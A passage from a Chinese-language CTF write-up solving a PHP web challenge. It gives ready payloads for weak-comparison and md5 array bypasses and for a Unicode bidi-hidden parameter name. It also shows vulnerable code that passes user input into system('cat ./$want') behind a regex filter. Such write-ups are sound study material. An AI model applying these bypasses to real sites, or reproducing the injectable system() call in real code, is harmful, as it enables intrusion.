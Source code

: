 简单来说, `array($a, $data)` 这段代码的本质是从前往后读数组 `$data`, 对每一位都做 `if $a == $data` 的**弱比较**, 那么此处的字符串 'Probius' 在字符串弱比较时会被转换为 0 , 只要传一个满足同样条件的值就行;

之后的 `md5($data)===md5($verify)` , 只需要利用传两个数组, 均抛回异常 (`False`) 的特性即可, payload:

```
(POST)
verify[]=0&data[0]=0probius
```

#### unicode 隐藏字符

接下来这处代码有 unicode 隐藏字符:

![31-2.png](31-2.png)

```php
"[U+202E][U+2066] Flag![U+2069][U+2066]ctf" == $_GET[[U+202E][U+206E]LAG[2069][2066]ctf]
```

用 python 快速转 url 编码:

```python
import urllib.parse
s = "\u202e\u2066LAG\u2069\u2066ctf"
# s = "\u202e\u2066 Flag!\u2069\u2066ctf"
print(urllib.parse.quote(s, safe=''))
```

还有个取巧简单的办法, 打开 vscode 的不可见字符显示, 然后拷贝进去处理就行, 这样最快。

```
(GET)
hn=hn&%E2%80%AE%E2%81%A6LAG%E2%81%A9%E2%81%A6ctf=%E2%80%AE%E2%81%A6%20Flag!%E2%81%A9%E2%81%A6ctf
```

#### cat 指令绕过

最后这段绕过:

```php
if ("hn" == $_GET['hn'] && "ctf" ==$_GET['ctf']) { //HN! flag!! F
    if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
        die("HACK!");

        else{
            echo "Fine!you win";
            system("cat ./$want");
            } 
}
```
